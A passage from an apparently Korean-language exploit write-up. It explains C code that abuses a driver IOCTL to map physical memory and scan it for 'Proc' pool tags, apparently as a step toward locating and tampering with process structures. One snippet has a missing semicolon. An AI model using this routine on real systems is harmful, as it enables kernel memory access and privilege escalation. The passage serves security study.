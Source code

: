 위 코드는 `0x120000000` ~ `0x240000000` 사이 Proc 태그의 주소를 모두 찾는 루틴입니다.

<br>

```c
INT64 read_address = START_ADDRESS + (i * 0x1000);
if (read_address >= END_OF_ADDRESS) {
	printf("END of Address\\n");
	return proc_data;
}
```

읽을 메모리 주소를 `0x120000000`부터 시작해 Page 크기인 `0x1000` 단위로 증가시키며 서칭을 진행합니다.

<br>

```c
READ_INPUT_BUFFER input_buff = { read_address, len };
LPVOID output_buff = VirtualAlloc(NULL, 0x100c, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
       
DeviceIoControl(dHandle, READ_IOCTL, &input_buff, 0x40, output_buff, 0x100c, &dwRet, 0);
INT64 result = (INT64)output_buff + 0xc;
```

`input_buff`에는 물리 메모리 주소와 길이(`0x1000`)를 주고, `output_buff`에 충분한 공간을 할당해 `DeviceIoControl` 함수로 `0x81112F08` IOCTL 요청을 보냅니다.  `0x81112F08` 은 METHOD_BUFFERED 로 input과 output 버퍼를 공유하기 때문에 IOCTL 결과 버퍼에 Input값이 포함되어 있습니다. 따라서 `output_buff`에 `0xc` (`INT64 read_address(0x8) + DWORD len(0x4)`) 만큼 더한 위치의 값이 IOCTL 요청의 결과값인 매핑된 가상 메모리 주소가 되고 `result`로 들어갑니다.

<br>

```c
for (INT64 j = 0; j < 0xF60; j += 0x10) { // Searching Proc Tag
	PINT64 proc_ptr = (PINT64)(result + 0x4 + j);
	INT32 proc_val = *(PINT32)proc_ptr
	if (proc_val == 0x636f7250) { 

		for (INT64 k = 0; k < 0xA0; k += 0x10) { //Searching marker (0x00000003
			PINT64 header_ptr = (PINT64)(result + j + k);
			INT32 header_val = *(PINT32)header_ptr;

			if (header_val == 0x00000003) {
				// save Proc chunk
				INT64 tmp = read_address + j;
				INT64 modulus = tmp % 0x1000;
				proc_data.page_entry_offset[proc_data.proc_count] = modulus;
				proc_data.proc_address[proc_data.proc_count] = tmp - modulus;
				proc_data.header_size[proc_data.proc_count] = k;
				proc_data.proc_count++;
				printf("[%d] Proc chunks found\\n", proc_data.proc_count);
			}
		}            
	}
}
```
